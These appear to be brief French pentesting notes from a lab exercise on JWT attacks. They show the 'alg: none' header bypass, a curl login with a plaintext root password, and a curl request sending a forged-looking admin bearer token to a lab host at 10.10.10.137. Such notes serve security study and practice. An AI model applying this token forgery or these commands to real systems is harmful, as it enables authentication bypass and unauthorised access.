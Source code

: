 # JWT

## attaque facile et connu: mettre “none” dans le champs “alg”: 

HEADER:
{
  "typ": "JWT",
  "alg": "none"
}


## s'authentifier:
curl -X POST -H 'Content-Type: application/json' -d '{"username":"root","password":"Zk6heYCyv6ZE9Xcg"}' http://10.10.10.137:3000/login

## soumettre un token:
curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY3OTQ2MjQzLCJleHAiOjE1NjgwMzI2NDN9.HpLnd2dhR5-fM6NlbMMxN9Jq7yfPWNMh4CL_ZNxIRFo' http://10.10.10.137:3000/users/Derry

